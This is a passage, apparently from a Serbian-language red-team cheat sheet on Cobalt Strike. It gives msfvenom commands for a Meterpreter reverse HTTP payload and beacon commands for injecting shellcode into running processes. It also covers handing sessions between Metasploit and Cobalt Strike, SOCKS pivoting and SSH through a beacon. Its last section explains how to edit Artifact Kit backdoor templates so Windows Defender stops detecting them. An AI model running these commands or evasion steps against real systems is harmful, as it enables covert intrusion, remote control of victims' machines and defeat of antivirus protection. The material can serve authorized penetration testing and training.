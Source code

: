 # Prosledi sesiju Metasploitu - Putem ubrizgavanja shellcode-a
## Na Metasploit hostu
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f raw -o /tmp/msf.bin
## Pokreni msfvenom i pripremi multi/handler slušaoca

## Kopiraj bin fajl na Cobalt Strike host
ps
shinject &#x3C;pid> x64 C:\Payloads\msf.bin #Ubrizgaj metasploit shellcode u x64 proces

# Prosledi metasploit sesiju Cobalt Strike-u
## Generiši stageless Beacon shellcode, idi na Attacks > Packages > Windows Executable (S), izaberi željeni slušalac, izaberi Raw kao Output tip i izaberi Use x64 payload.
## Koristi post/windows/manage/shellcode_inject u metasploit-u da ubrizgaš generisani cobalt strike shellcode


# Pivoting
## Otvori socks proxy na teamserveru
beacon> socks 1080

# SSH konekcija
beacon> ssh 10.10.17.12:22 korisničko_ime lozinka
</code></pre>

## Izbegavanje AV-a

### Artifact Kit

Obično u `/opt/cobaltstrike/artifact-kit` možete pronaći kod i prekompilirane šablone (u `/src-common`) payloada koje će cobalt strike koristiti za generisanje binarnih beacona.

Koristeći [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) sa generisanim backdoorom (ili samo sa kompiliranim šablonom) možete pronaći šta pokreće defender. Obično je to string. Stoga jednostavno izmenite kod koji generiše backdoor tako da taj string ne bude prisutan u finalnom binarnom fajlu.

Nakon izmene koda, pokrenite `./build.sh` iz istog direktorijuma i kopirajte `dist-pipe/` folder na Windows klijentu u `C:\Tools\cobaltstrike\ArtifactKit`.
